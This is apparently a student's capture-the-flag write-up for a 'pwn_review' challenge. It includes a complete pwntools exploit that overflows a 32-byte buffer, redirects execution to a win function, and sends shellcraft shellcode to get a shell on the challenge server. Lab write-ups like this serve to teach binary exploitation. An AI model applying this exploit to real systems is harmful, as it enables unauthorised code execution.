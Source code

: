 # pwn_review
A simple review challenge.  Let's see how it goes :3

So running the binary, we get some info:
```
This is a review challenge, you know the drill
Return to the win function and get the flag
gimme win function
```
Ok, so we need to return to the win function.  My guess is that this program is going to be susceptible to a buffer overflow.  Turns out it is!  After screaming at it for a bit, I was able to determine the buffer was 32 bytes, so our padding will be 40 bytes.

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/pwn_review
This is a review challenge, you know the drill
Return to the win function and get the flag
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
```
Sweet, we crashed, and if we loop at RBP, we can see we have overwritten it with our Bs. `RBP: 0x4242424242424242 ('BBBBBBBB')`
That means whatever comes next will overwrite the instruction pointer, so we can return to wherever we want!

So let's actually find the address we want to return to.  We can use `objdump -d pwnreview | grep win` to find the location of the win function.
`0000000000400577 <win>:`

Great. So we know our padding will be 40 bytes, and we have the address.  So let's put what we have together so far in python:

```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)
payload = padding + win

log.info(payload)

io.sendline(payload)
io.interactive()
```
And running it we get:
```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode
This is a review challenge, you know the drill
Return to the win function and get the flag
nice! I'll execute any shellcode you give me now
$ booop?
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to ctf.ropcity.com port 31337
[*] Got EOF while sending in interactive
```

Hmm, looks like we aren't done quite yet.  We are give a prompt to enter some shell code.  So let's add a few more lines to our exploit that will spawn a shell for us.
```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)

shell = shellcraft.sh() #Pwntools shellcraft OP
shellcode = asm(shell)

payload = padding + win
log.info(payload)

io.sendline(payload)

io.recvuntil("you give me now")

io.sendline(shellcode)
io.interactive()
```

And running it we get a shell!:

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode

$ ls
flag
pwn_review
$ cat flag
osu{pwnt00ls_i$_Ch3A7iNG}
```

This was a pretty sick review covering the stuff we have learned so far! GG

